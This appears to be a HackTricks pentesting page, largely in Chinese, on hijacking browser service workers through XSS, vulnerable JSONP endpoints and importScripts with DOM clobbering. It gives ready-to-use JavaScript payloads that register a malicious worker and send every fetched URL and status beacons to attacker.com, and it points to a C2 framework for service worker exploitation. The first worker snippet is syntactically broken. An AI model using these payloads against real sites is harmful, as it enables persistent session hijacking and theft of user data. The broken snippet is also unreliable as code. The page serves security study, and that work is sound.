 # Abusing Service Workers



{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**服务工作者**是由浏览器在后台运行的脚本，与任何网页分开，启用不需要网页或用户交互的功能，从而增强**离线和后台处理**能力。有关服务工作者的详细信息可以在[这里](https://developers.google.com/web/fundamentals/primers/service-workers)找到。通过利用脆弱网页域中的服务工作者，攻击者可以控制受害者与该域内所有页面的交互。


### Checking for Existing Service Workers

可以在**开发者工具**的**应用程序**选项卡中的**服务工作者**部分检查现有的服务工作者。另一种方法是访问[chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals)以获取更详细的视图。

### Push Notifications

**推送通知权限**直接影响**服务工作者**与服务器进行通信的能力，而无需直接用户交互。如果权限被拒绝，则限制了服务工作者构成持续威胁的潜力。相反，授予权限会增加安全风险，因为这使得接收和执行潜在漏洞成为可能。

## Attack Creating a Service Worker

为了利用此漏洞，您需要找到：

* 一种方法来**上传任意 JS** 文件到服务器，以及一个**XSS 来加载上传的 JS 文件的服务工作者**
* 一个**脆弱的 JSONP 请求**，您可以**操纵输出（使用任意 JS 代码）**，以及一个**XSS**来**加载带有有效负载的 JSONP**，这将**加载恶意服务工作者**。

在以下示例中，我将展示一个代码来**注册一个新的服务工作者**，该服务工作者将监听`fetch`事件，并将**每个获取的 URL 发送到攻击者的服务器**（这是您需要**上传**到**服务器**或通过**脆弱的 JSONP** 响应加载的代码）：
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
这是将**注册工作者**的代码（您应该能够通过利用**XSS**执行的代码）。在这种情况下，将向**攻击者**的服务器发送**GET**请求，**通知**服务工作者的**注册**是否成功：
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
在滥用易受攻击的 JSONP 端点时，您应该将值放入 `var sw` 中。例如：
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
有一个专门用于**服务工作者利用**的**C2**，叫做[**Shadow Workers**](https://shadow-workers.github.io)，这将对利用这些漏洞非常有用。

**24小时缓存指令**限制了恶意或被攻陷的**服务工作者 (SW)**的生命周期，最多为XSS漏洞修复后的24小时，假设在线客户端状态。为了最小化漏洞，网站运营商可以降低SW脚本的生存时间（TTL）。开发者还被建议创建一个[**服务工作者杀开关**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776)以便快速停用。

## 通过DOM覆盖在SW中滥用`importScripts`

从服务工作者调用的函数**`importScripts`**可以**从不同域导入脚本**。如果使用**攻击者可以修改的参数**调用此函数，他将能够**从他的域导入JS脚本**并获得XSS。

**这甚至可以绕过CSP保护。**

**示例易受攻击的代码：**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### 使用 DOM Clobbering

有关 DOM Clobbering 的更多信息，请查看：

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

如果 SW 用于调用 **`importScripts`** 的 URL/域名 **在一个 HTML 元素内**，则 **可以通过 DOM Clobbering 修改它**，使 SW **从您自己的域加载脚本**。

有关此的示例，请查看参考链接。

## 参考

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

{% hint style="success" %}
学习和实践 AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
